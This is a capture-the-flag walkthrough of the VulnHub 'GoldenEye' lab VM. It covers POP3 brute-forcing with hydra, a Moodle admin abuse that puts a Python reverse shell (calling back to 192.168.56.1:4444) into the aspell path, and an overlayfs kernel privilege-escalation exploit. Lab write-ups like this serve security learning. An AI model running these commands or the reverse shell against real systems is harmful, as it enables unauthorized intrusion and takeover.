<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/goldeneye-1,240/">Golden Eye</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/_creosote"> Melvin</a></h4>


## Nmap




We can see that there are `pop3` server running this mean we will for sure encounter something related to `emails`. But let's just start small and enumerate HTTP.

***

## HTTP

If we visit the website we get some cool looking page.



It says something about going to `/sev-home/` to login. If we try to visit that we are prompted for credentials which we don't have.



In the source of the page I found a link to file name `terminal.js`



There are few things that we know from this

* A person name `Boris`
* A person name `Natalya`
* The damn password for `Boris` i.e `&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;`

We can decode this with simple python code

```python
password = "&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;"

char = password.replace("&#", "")

for i in list(filter(None, char.split(";"))):
    print(chr(int(i)), end="")
```

This would just print out the password `InvincibleHack3r`. So now we have the password for `Boris` i.e `boris: InvincibleHack3r`.

So now we can just login with those credentials to `/sev-Home`


If we look at the source of the page we'll notice that this page doesn't end on line 22. There is something on line 174



```
Qualified GoldenEye Network Operator Supervisors:
Natalya
Boris
```

Other than that I found nothing there. I even tried to run `dirsearch` but got nothing.

Time to move on to those pop3 ports.

***

## pop3

Since we have the credentials we can just login into the pop3 service and see if we can find something good.

But those credentials didn't worked.



Since I had no other information on any other service I just ran the dictionary attack with user name as `boris`.

```bash
hydra -l boris -P /usr/share/wordlists/fasttrack.txt -t20 192.168.56.103 -s55007 -I pop3
```



`boris: secret1!`

With these credential I was able to login to the pop3 service.



I started to look for message there using `RETR <message-number>` Ex `RETR 1`, `RETR 2`


Since I got nothing in boris account. I decided to brute force `Natalya's` account.



`natalya: bird`

I logged into her account and again looked for messages and found something in the



We've got a set of new `credentials` i.e `xenia: RCP90rulez!` and the last four lines tells us about a new domain.

```
And if you didn't have the URL on outr internal Domain: severnaya-station.com/gnocertdir
**Make sure to edit your host file since you usually work remote off-network....

Since you're a Linux user just point this servers IP to severnaya-station.com in /etc/hosts.
```

We need to edit out `/etc/hosts` file to add the following line to it

```
Machine-IP  severnaya-station.com
```


If we visit the said URL i.e `severnaya-station.com/gnocertdir` we'll see a `moodle` interface.



On `http://severnaya-station.com/gnocertdir/login/index.php` I found a login page where I logged in as `xenia`



After logging in I found a message from a person name `Dr. Doak` in the `My profile -> Messages` option.



And that message gave a lot of information about `Doc`



Other than that I got nothing on moodle system. I googled some exploit to get a reverse shell from this but none of them were compatible for our conditions.
When I had no option left I did the sin again, I ran hydra to see if I can find the password for `doak`.



`doak: goat`

This is crazy the amount of dictionary attacks on this machine is crazy.

I once again logged into `pop3` to see if I can find some information from doak messages.

It looks like doak didn't even tried he had credential in the very first message.



`dr_doak: 4England!`

I tried these on moodle to see if I can login as doak and I actually was able to do so.



Since we are finding everything in someones `messages` I decided to check `doak's` message but there wasn't any. 😢😢

But in the private `files` section I found a file name `s3cret.txt`



And that file had some details about another so called `juicy` file which might contain some information.



`/dir007key/for-007.jpg`

If we are given an image for `juicy` content then for sure we might have to do stego on that image.

On visiting `http://severnaya-station.com/dir007key/for-007.jpg` I got an image name `for-007.jpg`


I first ran the `strings` command but that didn't gave out anything so I decided to look into it's metadata and found a base64 encoded string.



Decoding that string gave `xWinter1995x!` so this is admin's password because this is what was written in the `secret.txt` that it's `admin creds`.

```
admin: xWinter1995x!
```

So now we can just login as `admin` into moodle.

***

## Exploiting moodle

Okay in the start when I logged in as `xenia` there wasn't anything that we could exploit in moodle. But I know that we can exploit it if we have admin power.

All we need to do is edit some `system paths` which can be found in `Site administration  -> Server -> System paths` and in the `Path to aspell` we can just add our `reverse shell`.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```


Then in the `Site administration -> plugins -> text editors -> TinyMCE HTML editor ` change the Spell engine from `Google spell` to `PSpellShell`.



Then you can just make a blog post from `courses` menu and click on `Toggle Spellchecker` while your listener is up.



When we click on that we'll get reverse shell as `www-data`



***

## Privilege escalation

Since I was in the system I simply ran my enumeration script and found that kernel used was quite old.



I used `searchsploit` to find an expoit for this kernel.



I used the `Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation` one.

I compiled the exploit in a file name `exp` and then took it to the machine and ran but got an error about `gcc` not installed. WTF!!

So I googled an `Alternative to gcc` and found [Stackoverflow thread](https://stackoverflow.com/questions/1699495/is-there-any-alternative-to-gcc-to-do-pratical-development-under-nix) mentioning `cc`. So I checked for `cc --help` and it was installed.

Now I edited the exploit line 144 __from__

```c
lib = system("gcc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");
```
__to__

```c
lib = system("cc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");
```



Then I got the exp to the machine(again) and ran it, this time it gave me a root shell.




If we visit the `http://severnaya-station.com/006-final/xvf7-flag/` we will find a gif playing.


***

This was an interesting VM, like we were getting information about every user which made it kinda real(almost). I really enjoyed doing it.

Thanks to [@_creosote](https://twitter.com/_creosote) for this wonderful VM.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.
